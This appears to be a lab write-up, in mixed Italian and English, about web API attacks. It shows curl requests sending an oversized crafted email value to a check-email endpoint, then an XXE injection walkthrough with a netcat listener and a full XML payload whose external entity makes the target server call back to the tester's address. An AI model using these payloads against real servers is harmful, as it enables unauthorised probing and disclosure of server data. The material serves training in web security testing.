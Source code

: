 ```shell
$ curl "http://$TARGET:$TARGET_PORT/api/check-email?email=test_value"
$ curl "http://$TARGET:$TARGET_PORT/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."
```

# XML External Entity (XXE) Injection

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down. Our Web Attacks module covers XXE Injection vulnerabilities in detail. It should be noted that XXE vulnerabilities affect web applications and APIs alike.

## Exploit

Avviamo netcat in una shell

```shell
$ nc -nlvp 4444
```

Con BurpSuite catturiamo la POST della login che usa XML per lo scambio di dati.
Questo il payload che vogliamo inviare.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:4444"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```

inviamolo al server

```shell
$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```

e nella shell con netcat otteniamo una traccia della connessione
